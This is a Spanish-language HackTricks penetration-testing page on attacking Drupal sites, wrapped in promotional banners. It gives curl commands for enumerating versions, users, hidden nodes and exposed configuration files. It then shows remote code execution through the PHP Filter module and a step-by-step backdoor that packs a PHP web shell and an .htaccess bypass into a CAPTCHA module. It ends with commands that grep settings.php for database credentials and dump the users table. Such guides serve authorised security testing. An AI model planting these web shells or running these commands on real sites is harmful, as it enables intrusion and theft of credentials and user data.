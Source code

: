# Drupal

<details>

<summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Experto en Equipos Rojos de AWS de HackTricks)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si quieres ver tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén el [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Comparte tus trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

## Descubrimiento

* Verifica **meta**
```bash
curl https://www.drupal.org/ | grep 'content="Drupal'
```
* **Nodo**: Drupal **indexa su contenido utilizando nodos**. Un nodo puede **contener cualquier cosa** como una publicación de blog, encuesta, artículo, etc. Las URIs de las páginas suelen tener la forma `/node/<nodeid>`.
```bash
curl drupal-site.com/node/1
```
## Enumeración

Drupal admite **tres tipos de usuarios** de forma predeterminada:

1. **`Administrador`**: Este usuario tiene control total sobre el sitio web de Drupal.
2. **`Usuario Autenticado`**: Estos usuarios pueden iniciar sesión en el sitio web y realizar operaciones como agregar y editar artículos según sus permisos.
3. **`Anónimo`**: Todos los visitantes del sitio web se designan como anónimos. Por defecto, a estos usuarios solo se les permite leer publicaciones.

### Versión

* Verificar `/CHANGELOG.txt`
```bash
curl -s http://drupal-site.local/CHANGELOG.txt | grep -m2 ""

Drupal 7.57, 2018-02-21
```
{% hint style="info" %}
Las nuevas instalaciones de Drupal bloquean por defecto el acceso a los archivos `CHANGELOG.txt` y `README.txt`.
{% endhint %}

### Enumeración de nombres de usuario

#### Registro

En _/user/register_ simplemente intenta crear un nombre de usuario y si el nombre ya está tomado, se te notificará:

![](<../../.gitbook/assets/image (328).png>)

#### Solicitar nueva contraseña

Si solicitas una nueva contraseña para un nombre de usuario existente:

![](<../../.gitbook/assets/image (903).png>)

Si solicitas una nueva contraseña para un nombre de usuario que no existe:

![](<../../.gitbook/assets/image (307).png>)

### Obtener número de usuarios

Accediendo a _/user/\<número>_ puedes ver la cantidad de usuarios existentes, en este caso son 2 ya que _/users/3_ devuelve un error de no encontrado:

![](<../../.gitbook/assets/image (333).png>)

![](<../../.gitbook/assets/image (227) (1) (1) (1).png>)

### Páginas ocultas

**Fuzz `/node/$` donde `$` es un número** (de 1 a 500 por ejemplo).\
Podrías encontrar **páginas ocultas** (de prueba, desarrollo) que no están referenciadas por los motores de búsqueda.

#### Información de módulos instalados
```bash
#From https://twitter.com/intigriti/status/1439192489093644292/photo/1
#Get info on installed modules
curl https://example.com/config/sync/core.extension.yml
curl https://example.com/core/core.services.yml

# Download content from files exposed in the previous step
curl https://example.com/config/sync/swiftmailer.transport.yml
```
### Automático
```bash
droopescan scan drupal -u http://drupal-site.local
```
## RCE

### Con el Módulo Filtro PHP

{% hint style="warning" %}
En versiones antiguas de Drupal **(antes de la versión 8)**, era posible iniciar sesión como administrador y **habilitar el módulo `PHP filter`**, que "Permite evaluar código/snippets PHP incrustados."
{% endhint %}

Necesitas que el **plugin php esté instalado** (verifica accediendo a _/modules/php_ y si devuelve un **403** entonces, **existe**, si **no se encuentra**, entonces el **plugin php no está instalado**)

Ve a _Módulos_ -> (**Marca**) _Filtro PHP_ -> _Guardar configuración_

![](<../../.gitbook/assets/image (247) (1).png>)

Luego haz clic en _Agregar contenido_ -> Selecciona _Página básica_ o _Artículo_ -> Escribe _código shell php en el cuerpo_ -> Selecciona _Código PHP_ en _Formato de texto_ -> Selecciona _Vista previa_

![](<../../.gitbook/assets/image (338).png>)

Finalmente solo accede al nodo recién creado:
```bash
curl http://drupal-site.local/node/3
```
### Instalar el Módulo PHP Filter

Desde la versión **8 en adelante**, el [**módulo PHP Filter**](https://www.drupal.org/project/php/releases/8.x-1.1) **no se instala por defecto**. Para aprovechar esta funcionalidad, tendríamos que **instalar el módulo nosotros mismos**.

1. Descargar la versión más reciente del módulo desde el sitio web de Drupal.
1. wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz
2. Una vez descargado, ir a **`Administración`** > **`Informes`** > **`Actualizaciones disponibles`**.
3. Hacer clic en **`Examinar`**, seleccionar el archivo del directorio donde lo descargamos y luego hacer clic en **`Instalar`**.
4. Una vez instalado el módulo, podemos hacer clic en **`Contenido`** y **crear una nueva página básica**, similar a como lo hicimos en el ejemplo de Drupal 7. Nuevamente, asegúrese de **seleccionar `Código PHP` desde el menú desplegable de `Formato de texto`**.

### Módulo con Puerta Trasera

Un módulo con puerta trasera se puede crear **agregando un shell a un módulo existente**. Los módulos se pueden encontrar en el sitio web drupal.org. Elija un módulo como [CAPTCHA](https://www.drupal.org/project/captcha). Desplácese hacia abajo y copie el enlace para el archivo tar.gz [archivo](https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz).

* Descargue el archivo y extraiga su contenido.
```
wget --no-check-certificate  https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
tar xvf captcha-8.x-1.2.tar.gz
```
* Crear una **shell web en PHP** con el contenido:
```php
<?php
system($_GET["cmd"]);
?>
```
* A continuación, necesitamos crear un archivo **`.htaccess`** para darnos acceso a la carpeta. Esto es necesario ya que Drupal niega el acceso directo a la carpeta **`/modules`**.
```html
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
</IfModule>
```
* La configuración anterior aplicará reglas para la carpeta / cuando solicitemos un archivo en /modules. Copia ambos de estos archivos a la carpeta captcha y crea un archivo.
```bash
mv shell.php .htaccess captcha
tar cvf captcha.tar.gz captcha/
```
* Suponiendo que tenemos **acceso administrativo** al sitio web, haz clic en **`Administrar`** y luego en **`Extender`** en la barra lateral. A continuación, haz clic en el botón **`+ Instalar nuevo módulo`**, y seremos llevados a la página de instalación, como `http://drupal-site.local/admin/modules/install`. Navega hasta el archivo de Captcha con puerta trasera y haz clic en **`Instalar`**.
* Una vez que la instalación tenga éxito, navega a **`/modules/captcha/shell.php`** para ejecutar comandos.

## Post Explotación

### Leer settings.php
```
find / -name settings.php -exec grep "drupal_hash_salt\|'database'\|'username'\|'password'\|'host'\|'port'\|'driver'\|'prefix'" {} \; 2>/dev/null
```
### Volcar usuarios de la base de datos
```
mysql -u drupaluser --password='2r9u8hu23t532erew' -e 'use drupal; select * from users'
```
## Referencias

* [https://academy.hackthebox.com/module/113/section/1209](https://academy.hackthebox.com/module/113/section/1209)

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

<details>

<summary><strong>Aprende hacking en AWS desde cero hasta experto con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si deseas ver tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén el [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
